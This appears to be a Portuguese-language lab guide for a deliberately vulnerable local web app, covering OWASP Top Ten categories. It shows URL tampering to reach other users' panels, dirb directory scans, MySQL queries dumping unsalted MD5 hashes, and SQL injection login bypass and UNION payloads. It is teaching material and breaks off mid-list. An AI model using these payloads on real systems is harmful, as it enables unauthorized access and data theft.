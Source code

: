 ```
# OWASP Top Ten (https://owasp.org/www-project-top-ten/): A01:2021 - Broken Access Control (https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
#################################################################################################################################################################

Obs.: Acessos Web via navegador no Kali com usuários/senhas "aluno/p@ssw0rd" e "professor/p@ssw0rd"

  Após autenticado, alunos acessam o painel de professores e professores acessam o painel de alunos, modificando o URL
  	Painel de alunos: http://192.168.10.2/app/restrito/painel_alunos.php
  	Painel de professores: http://192.168.10.2/app/restrito/painel_professores.php
  
  Os conteúdos dos painéis de alunos e professores podem ser "lidos/acessados", mesmo sem autenticação
  	curl http://192.168.10.2/app/restrito/painel_alunos.php
  	curl http://192.168.10.2/app/restrito/painel_professores.php

Obs.: A descoberta de diretórios e arquivos pode ser realizada, por exemplo, via dirb
	dirb http://192.168.10.2/app
	dirb http://192.168.10.2/app/ /usr/share/wordlists/dirb/big.txt
	dirb http://192.168.10.2/app/ /usr/share/wordlists/dirb/big.txt -X .php

#################################################################################################################################################################
# OWASP Top Ten (https://owasp.org/www-project-top-ten/): A02:2021 - Cryptographic Failures (https://owasp.org/Top10/A02_2021-Cryptographic_Failures/)
#################################################################################################################################################################

  Hash de senhas utilizando MD5, sem salt (usuários com a mesma senha têm o mesmo hash)
	mysql -uroot -pp@ssw0rd exemplo -e 'select * from usuarios'
      
  Ausência de criptografia para dados confidenciais/sensíveis
	mysql -uroot -pp@ssw0rd exemplo -e 'select * from confidencial'

#################################################################################################################################################################
# OWASP Top Ten (https://owasp.org/www-project-top-ten/): A03:2021 - Injection (https://owasp.org/Top10/A03_2021-Injection/)
#################################################################################################################################################################

- SQL Injection (SQLi)

  http://192.168.10.2/app/restrito/login.php:
    Login com qualquer senha, via seguintes "usuários":
      aluno' -- (-- seguido de um espaço)
      professor' -- (-- seguido de um espaço)
      
Obs.: Os caracteres "--" (assim como "#", por exemplo) são utilizados para fins de comentário no MySQL. Detalhes em https://dev.mysql.com/doc/refman/8.0/en/comments.html
  
  http://192.168.10.2/app/publico/pesquisa.php:
  ```
    ?search=1'
    ?search=1'or 1='1
    ?search=-1' union select 1'
    ?search=-1' union select 1,2'
    ?search=-1' union select 1,2,3,4,5'
      - Outra abordagem comum: ORDER BY (?search=-1' order by 1 %23 ; ?search=-1' order by 2 %23 ; [...] ; ?search=-1' order by 6 %23, com erro indicando que não há a coluna 6 no exemplo)
    ?search=-1' union select 1,version(),3,4,5'
    ?search=-1' union select 1,user(),version(),4,5'